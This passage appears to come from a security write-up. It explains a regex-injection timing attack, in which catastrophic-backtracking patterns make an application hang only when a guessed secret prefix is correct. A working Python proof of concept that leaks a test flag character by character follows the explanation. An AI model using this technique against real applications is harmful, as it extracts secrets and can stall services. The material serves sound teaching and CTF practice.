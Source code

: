 A smart regex parser would first look if the string starts with `<text>`, and if it does not, it stops instantly because it knows it will never match. Then if it does start with `<text>`, it will evaluate the rest of the `(((((.*)*)*)*)*)!` which is the computationally expensive part. That way we know that the string being matched starts with `<text>` if the application takes long to respond.&#x20;

Now we can try every possible letter in the place of \<text> until the application hangs. Then we save the newly found character and brute-force the next character, etc. See an example implementation I made in Python below:

```python
from functools import wraps
import errno
import os
import signal
import re

ALPHABET = list(b" {}_Ee3Aa@4RrIi1Oo0Tt7NnSs25$LlCcUuDdPpMmHhGg6BbFfYyWwKkVvXxZzJjQq89-,.!?'\"\n\r#%&()*+/\\:;<=>[]^`|~")  # Most common

# https://stackoverflow.com/a/2282656/10508498
class TimeoutError(Exception):
    pass

def timeout(seconds=10, error_message=os.strerror(errno.ETIME)):
    def decorator(func):
        def _handle_timeout(signum, frame):
            raise TimeoutError(error_message)

        def wrapper(*args, **kwargs):
            signal.signal(signal.SIGALRM, _handle_timeout)
            signal.setitimer(signal.ITIMER_REAL,seconds) #used timer instead of alarm
            try:
                result = func(*args, **kwargs)
            finally:
                signal.alarm(0)
            return result
        return wraps(func)(wrapper)
    return decorator


@timeout(0.1)
def match(regex):  # Target function
    re.match(regex, "CTF{f4k3_fl4g_f0r_t3st1ng}")


def attack():
    leaked = b""
    
    while True:
        for letter in ALPHABET:
            prefix = re.escape(leaked + bytes([letter])).decode()
            # regex = rf"{prefix}(((((((((((((.*)*)*)*)*)*)*)*)*)*)*)*)*)!"  # Doesn't get last byte
            regex = rf"(?={prefix}).*.*.*.*.*.*.*.*.*.*.*.*.*.*.*!!!!"  # Also gets last byte
            try:
                match(regex)
            except TimeoutError:
                leaked += bytes([letter])
                print(leaked)
                break
        else:
            break
        
    return leaked
```